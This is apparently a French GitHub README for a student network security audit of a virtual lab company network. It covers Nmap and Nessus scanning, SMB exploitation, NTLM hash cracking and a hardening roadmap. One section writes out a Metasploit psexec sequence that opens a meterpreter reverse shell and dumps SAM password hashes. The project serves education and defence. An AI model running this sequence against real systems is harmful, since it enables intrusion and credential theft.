



<a id="readme-top"></a>
<div align="center">
  

  <h1 align="center">Projet ASRdE : Audit de Sécurité Réseau D'une Enterprise</h1>

  <p align="center">
    Démarche complète d'audit de sécurité technique pour identifier les vulnérabilités et proposer des plans de remédiation pour une infrastructure d'entreprise standard.
    <br />
    <a href="#-démonstration"><strong>Voir les démonstrations »</strong></a>
    <br />
    <br />
    <a href="ASRdE%20Audit%20Report.pdf">Rapport d'Audit</a>
    ·
    <a href="Output_Logs.md">Consulter les Logs</a>
    ·
    <a href="Audit%20commands.md">Voir les Commandes</a>
  </p>

  <!-- Badges -->
  <p align="center">
    
    
    
  </p>
</div>

---

## 📚 Table des matières

1. [À Propos du Projet](#-à-propos-du-projet)
2. [Fonctionnalités](#-fonctionnalités)
3. [Technologies Utilisées](#-technologies-utilisées)
4. [Structure du Projet](#-structure-du-projet)
5. [Pour Commencer](#-pour-commencer)
6. [Utilisation](#-utilisation)
7. [Démonstration](#-démonstration)
8. [Résultats / Livrables](#-résultats--livrables)
9. [Captures d'Écran](#-captures-décran)
10. [Expérimentation / Travail Pratique](#-expérimentation--travail-pratique)
11. [Feuille de Route (Remédiation)](#-feuille-de-route-remédiation)
12. [Contribution](#-contribution)
13. [Licence](#-licence)
14. [Auteurs & Crédits](#-auteurs--crédits)
15. [Remerciements](#-remerciements)

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-à-propos-du-projet"></a>

## 📖 À Propos du Projet

La sécurité de l'information est un pilier stratégique pour toute organisation moderne. Une posture réactive n'est plus suffisante face à l'évolution constante des cybermenaces. Le projet ASRdE déroule une démarche d'audit de sécurité méthodique visant à évaluer les vulnérabilités et à renforcer les défenses d'une infrastructure d'entreprise typique.

> [!IMPORTANT]
> **Nature du Laboratoire :** Ce projet a été réalisé exclusivement au sein d'un environnement **virtualisé de test**. Bien qu'il simule les composants critiques d'une infrastructure, il ne représente qu'une **fraction de la complexité réelle** d'un réseau local (LAN) d'entreprise moderne. Les résultats sont limités au périmètre défini du laboratoire.

**Problématique :**
Comment sécuriser les actifs critiques (Serveurs, Active Directory, Données) et prévenir les intrusions ou le vol de données sans impacter négativement la productivité et le flux de travail des employés ?

**Objectifs Académiques :**
* Tester la résistance de l'architecture via une série de cas d'évaluation technique.
* Conduire une analyse de sécurité approfondie (analyse de vulnérabilités, validation des risques) pour identifier les faiblesses critiques.
* Évaluer l'efficacité des mesures de sécurité actuelles dans un environnement contrôlé.
* Produire des livrables de qualité professionnelle, incluant un rapport d'audit exécutif et un plan de durcissement (hardening) stratégique.

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-fonctionnalités"></a>

## ✨ Fonctionnalités

* **Bac à sable Virtuel Isolé :** Un environnement conteneurisé et sécurisé (VMware/VirtualBox) simulant fidèlement un réseau local (LAN) d'entreprise.
* **Cycle de Vie d'Audit Complet :** Exécution intégrale des phases de Reconnaissance, Analyse de Vulnérabilités, Exploitation et Post-Exploitation.
* **Cibles Réalistes :** Active Directory (Windows Server Core), Serveurs de Fichiers FTP (Ubuntu) et postes clients standards (Windows 10).
* **Démonstrations Vidéo en Direct :** Enregistrement de l'exécution des attaques (Exploitation SMB, cassage de hachages NTLM).
* **Documentation Professionnelle :** Rapports d'audit conformes aux standards de l'industrie, incluant des évaluations de risques basées sur le score CVSS et des stratégies de remédiation.

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-technologies-utilisées"></a>

## 🛠️ Technologies Utilisées

Ce projet s'appuie sur des outils standards de l'industrie de la cybersécurité :

* **Réseau & Hyperviseur :** VMware Workstation Pro / VirtualBox, pfSense (Passerelle/Pare-feu)
* **Cibles (Systèmes d'Exploitation) :** Windows Server Core (AD), Windows 10, Ubuntu Server (FTP)
* **Système de l'Auditeur :** Kali Linux
* **Outils de Sécurité Offensifs & Audit :**
  * Nmap (Reconnaissance réseau)
  * Nessus (Scanner de vulnérabilités)
  * Metasploit Framework (Exploitation, ex: psexec)
  * John the Ripper (Cassage de mots de passe)
  * Responder (Empoisonnement LLMNR/NBT-NS)

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-structure-du-projet"></a>

## 📂 Structure du Projet

```text
ASRdE-Project/
├── icon.png                                           # Icône/Logo principal du projet
├── Lab Strcture.png                                   # Diagramme de la topologie réseau
├── ASRdE Audit Report.pdf                             # Rapport d'Audit final compilé
├── ASRdE Audit Report Template.md                     # Modèle Markdown pour le rapport d'audit
├── Audit commands.md                                  # Liste exhaustive des commandes exécutées
├── Output_Logs.md                                     # Journaux du terminal et résultats des scénarios
├── [VIDEOS] LAB/                                      # Démonstrations vidéo enregistrées
│   ├── LAB VIDEO 1 - IP ET TEST PING.mp4              # Test de connectivité réseau et base de référence
│   ├── LAB VIDEO 2 - SENARIO 1.mp4                    # Reconnaissance (Nmap) & Cartographie (Nessus)
│   └── LAB VIDEO 3 - SENARIO 2 METASPLOITE + JRT.mp4  # Exploitation & Cassage (Metasploit + JtR)
├── [Presentation] Partie II.pptx                      # Diapositives de présentation finale (Lab & Durcissement)
├── [Presentation] Educational overview.pdf            # Présentation initiale du contexte éducatif
├── [PLAN V3] Projet Audit de Sécurité... .md          # Plan final validé du projet
└── [PLAN V3] Compétences de l'Auditeur IT... .pdf     # Documentation sur les standards de l'auditeur IT
```

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-pour-commencer"></a>

## 🚀 Pour Commencer

Suivez ces instructions pour reproduire l'environnement d'audit à des fins éducatives.

### Prérequis

* Un hyperviseur : VMware Workstation Pro ou VirtualBox.
* Fichiers ISO pour pfSense, Windows Server Core, Ubuntu Server et Kali Linux.
* Matériel : Minimum 16 Go de RAM recommandés pour héberger l'ensemble du laboratoire virtuel de manière fluide.

### Installation

1. **Importer la Passerelle :** Installez et configurez pfSense. Définissez l'interface LAN sur `192.168.1.1`. Configurez la plage DHCP de `192.168.1.100` à `192.168.1.200`.
2. **Déployer les Cibles :**
   * **Windows Server Core (AD) :** Définir l'IP statique sur `192.168.1.10`. Promouvoir en tant que Contrôleur de Domaine (`corp.local`).
   * **Ubuntu Server (FTP) :** Définir l'IP statique sur `192.168.1.20`. Installer `vsftpd`. Assurez-vous que Netplan désactive le DHCP.
   * **PC-Employé :** Intégrer la machine (Windows 10) au domaine `corp.local`.
3. **Déployer la Machine de l'Auditeur :** Démarrez Kali Linux sur le sous-réseau `192.168.1.0/24`.

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-utilisation"></a>

## ▶️ Utilisation

Le projet est piloté par des séquences de commandes spécifiques conçues pour reproduire la chaîne d'attaque (kill chain) d'un pirate.

* Pour la liste complète des commandes utilisées, consultez [Audit commands.md](Audit%20commands.md).
* Pour voir les résultats exacts de ces commandes, examinez [Output_Logs.md](Output_Logs.md).

**Exemple d'Exécution : Extraction du Hash SAM Local (Post-Exploitation)**

```bash
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.10
set SMBUser Administrator
set SMBPass [SUPPRIMÉ]
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit

meterpreter > getsystem
meterpreter > hashdump
```

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-démonstration"></a>

## 🎥 Démonstration

Les démonstrations en direct dans un cadre universitaire pouvant être sujettes à des aléas techniques, nous avons enregistré l'exécution complète des scénarios d'audit au sein de notre laboratoire isolé. Vous pouvez visionner les extraits directement ci-dessous :

### 🎬 Vidéo 1 : Base de référence et Connectivité

https://github.com/user-attachments/assets/df81ccd3-c226-4fd4-b272-78ff7b21976d

*Démontre la stabilité de l'environnement virtualisé et le routage correct via pfSense.*

---

### 🎬 Vidéo 2 : Scénario 1 - Reconnaissance & Cartographie


https://github.com/user-attachments/assets/9bd60558-03d6-49da-bbd9-9eadcebb4861


*Présente la cartographie furtive avec Nmap et l'évaluation automatisée des vulnérabilités avec Nessus.*

---

### 🎬 Vidéo 3 : Scénario 2 - Exploitation & Cassage de Mot de Passe

https://github.com/user-attachments/assets/8d842cca-cfbd-46e6-9690-9615c52b8856

*Mise en évidence de la compromission de l'Active Directory via SMB (Metasploit), de l'extraction de la base SAM et du cassage cryptographique hors ligne des identifiants de l'Administrateur à l'aide de John the Ripper.*

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-résultats--livrables"></a>

## 📊 Résultats / Livrables

L'aboutissement de cette exécution technique est le Rapport d'Audit Officiel ASRdE, formaté selon les normes de l'industrie.

📄 **[Lire le Rapport d'Audit Complet (PDF)](ASRdE%20Audit%20Report.pdf)**

### Résumé des Conclusions Clés :

* 🔴 **CRITIQUE :** Compromission des identifiants de l'Administrateur Local via SMB.
* 🟠 **ÉLEVÉ :** Politique de mot de passe Active Directory faible, permettant un cassage hors ligne en moins de 5 secondes.
* 🟡 **MOYEN :** Utilisation d'un protocole en clair (FTP) sur les serveurs de données internes.

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-captures-décran"></a>

## 🖼️ Captures d'Écran

### 🏗️ Architecture & Topologie
<div align="center">
  
  <p><i>Schéma détaillé de l'infrastructure réseau simulée (pfSense, Active Directory, Kali Linux).</i></p>
</div>

### 🛡️ Preuves d'Exécution (Evidence)
Nous avons documenté chaque étape critique de l'audit. Cliquez sur les images pour les agrandir.

| Exploitation SMB | Reconnaissance & Scan | Post-Exploitation (Hashes) |
| :---: | :---: | :---: |
|  |  |  |
| *Brute Force SMB (Metasploit)* | *Déploiement Psexec* | *Extraction & Cassage SAM* |

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-expérimentation--travail-pratique"></a>

## 🧪 Expérimentation / Travail Pratique

Notre méthodologie suit un cadre strict de test de pénétration professionnel en 4 étapes :

1. **Reconnaissance (Nmap) :** Analyse active du réseau pour découvrir les hôtes en ligne, les ports ouverts et les services en cours d'exécution (Empreinte OS).
2. **Cartographie (Nessus) :** Analyse approfondie des services découverts par rapport aux bases de données CVE connues pour évaluer la criticité des risques.
3. **Exploitation (Metasploit) :** Déploiement de charges utiles (ex: reverse shells psexec) pour prouver que les vulnérabilités sont activement exploitables.
4. **Audit Interne (John the Ripper) :** Récupération de hachages de mots de passe sur les systèmes compromis, suivie d'attaques par dictionnaire/force brute pour mettre en évidence les failles humaines et politiques.

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-feuille-de-route-remédiation"></a>

## 🗺️ Feuille de Route (Remédiation)

L'audit n'est que la première étape. L'objectif ultime est la remédiation. Sur la base de nos conclusions, nous proposons la stratégie de défense suivante (Durcissement/Hardening) :

- [] **Axe 1 - Réseau (Segmentation) :** Mise en œuvre de VLAN pour isoler les départements (ex: Direction, RH, Invités) et empêcher les mouvements latéraux.
- [] **Axe 2 - Système (Identité) :** Déploiement d'Objets de Stratégie de Groupe (GPO) stricts pour la complexité des mots de passe, implémentation de Microsoft LAPS et activation de l'Authentification Multifacteur (MFA).
- [] **Axe 3 - Maintenance (Hygiène) :** Politiques strictes de gestion des correctifs (Patch Management) pour automatiser le déploiement des mises à jour de sécurité pour les serveurs Windows et Linux.

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-contribution"></a>

## 🤝 Contribution

Ce projet fait partie d'une exigence académique et n'accepte actuellement pas de *pull requests* externes. Toutefois, les retours et les discussions sur les méthodologies d'audit sont les bienvenus.

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-licence"></a>

## 📄 Licence

Distribué sous la licence **MIT** (voir le fichier [LICENSE](LICENSE)). Ce projet a été créé strictement à des fins éducatives dans un environnement de bac à sable (sandbox). Les auteurs n'approuvent ni ne cautionnent l'utilisation de ces outils ou méthodologies sur des réseaux sans autorisation écrite explicite.

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-auteurs--crédits"></a>

## 👥 Auteurs & Crédits

**L'Équipe d'Audit :**
* **Mohamed Ait Bella** - Étudiant en Cybersécurité / Auditeur Principal
* **Bilal Siki** - Étudiant en Cybersécurité / Auditeur Principal

**Supervision Académique :**
* **Pr. Rachid Dakir** - Superviseur du Projet

**Institution :**
* Faculté Polydisciplinaire de Ouarzazate (Université Ibn Zohr - Agadir)
* Filière : Cybersécurité S4 (2026)

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>

---

<a id="-remerciements"></a>

## 🙏 Remerciements

* Modèle de README inspiré par Othneil Drew.
* Remerciements aux contributeurs open source des outils [Kali Linux](https://www.kali.org/), [Metasploit](https://www.metasploit.com/) et [Nmap](https://nmap.org/).

<p align="right">(<a href="#readme-top">Retour en haut</a>)</p>
